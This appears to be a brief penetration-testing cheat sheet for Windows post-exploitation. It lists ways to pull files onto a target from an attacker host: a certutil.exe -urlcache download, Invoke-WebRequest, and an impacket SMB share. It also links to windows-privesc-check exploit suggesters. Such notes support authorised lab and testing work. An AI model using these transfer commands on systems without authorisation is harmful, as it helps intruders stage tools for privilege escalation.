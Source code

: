 # Getting a file 
### CMD
``` 
certutil.exe -urlcache -split -f "http://ip:8000/archivo" archivo
```
### Powershell
```
Invoke-WebRequest -Uri http://ip:8000/archivo -OutFile archivo
```
### SMB
Local
```
python Tools/impacket/smbserver.py Tools .
```
Remote
```
copy \\10.10.14.27\Tools\file
```
# Exploit suggesters
### .exe
```
https://github.com/pentestmonkey/windows-privesc-check/blob/master/windows-privesc-check2.exe
```
### Python
```
https://github.com/pentestmonkey/windows-privesc-check/blob/master/windows_privesc_check.py
```
